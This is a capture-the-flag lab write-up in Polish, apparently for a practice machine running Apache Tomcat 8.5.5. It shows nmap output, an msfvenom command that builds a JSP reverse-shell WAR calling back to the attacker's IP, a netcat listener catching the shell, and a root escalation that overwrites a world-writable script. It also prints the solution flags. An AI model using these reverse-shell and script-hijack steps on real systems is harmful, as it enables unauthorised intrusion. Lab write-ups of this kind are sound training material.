## IP maszyny:
10.10.163.72

### Sprawdzanie połączenia

└─$ ping -c 5 10.10.163.72 
PING 10.10.163.72 (10.10.163.72) 56(84) bytes of data.
64 bytes from 10.10.163.72: icmp_seq=1 ttl=63 time=46.1 ms
64 bytes from 10.10.163.72: icmp_seq=2 ttl=63 time=47.4 ms
64 bytes from 10.10.163.72: icmp_seq=3 ttl=63 time=46.5 ms
64 bytes from 10.10.163.72: icmp_seq=4 ttl=63 time=47.9 ms
64 bytes from 10.10.163.72: icmp_seq=5 ttl=63 time=45.8 ms

--- 10.10.163.72 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4010ms
rtt min/avg/max/mdev = 45.752/46.740/47.860/0.796 ms

### Sprawdzanie co jest pod podanym adresem IP: 



### Skanowanie portów: 

$ sudo nmap -sV -sC 10.10.163.72 

-->

[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-17 04:45 EDT
Nmap scan report for 10.10.163.72
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds

### Sprawdzanie strony na porcie 8080:





# 401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the admin-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>

Note that for Tomcat 7 onwards, the roles required to use the host manager application were changed from the single admin role to the following two roles. You will need to assign the role(s) required for the functionality you wish to access.

- admin-gui - allows access to the HTML GUI
- admin-script - allows access to the text interface

The HTML interface is protected against CSRF but the text interface is not. To maintain the CSRF protection:

- Users with the admin-gui role should not be granted the admin-script role.
- If the text interface is accessed through a browser (e.g. for testing since this interface is intended for tools not humans) then the browser must be closed afterwards to terminate the session.







Znalazłem exploit dla tej wersji apache: 




https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/



┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.128.242 LPORT=4444 -f war > shell1.war

-->

/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
Payload size: 1103 bytes
Final size of war file: 1103 bytes



┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.8.128.242] from (UNKNOWN) [10.10.163.72] 56672
**ls**
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
**id**
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
**whoami**
tomcat

...

**ls -la /home/jack**
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Sep 17 03:45 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

...

## 1 flaga

**cat /home/jack/user.txt**
39400c90bc683a41a8935e4719f181bf

...

Zdobycie lepszego Shella: 

https://www.explainshell.com/explain?cmd=python3.1%20-c%20%27import%20pty%3B%20pty.spawn%28%22/bin/sh%22%29%27



**python3 -c 'import pty; pty.spawn("/bin/bash")'**
tomcat@ubuntu:/$ 

**tomcat@ubuntu:/home/jack$ cat id.sh**
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
**cat test.txt**
uid=0(root) gid=0(root) groups=0(root)

**tomcat@ubuntu:/home/jack$ echo 'cp /root/root.txt /home/jack/rootflag.txt' > id.sh**
<cho 'cp /root/root.txt /home/jack/rootflag.txt' > id.sh                     
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ ls**
ls
id.sh  rootflag.txt  test.txt  user.txt
**tomcat@ubuntu:/home/jack$ cat user.txt**
cat user.txt
39400c90bc683a41a8935e4719f181bf
**tomcat@ubuntu:/home/jack$ cat rootflag.txt**
cat rootflag.txt
d89d5391984c0450a95497153ae7ca3a


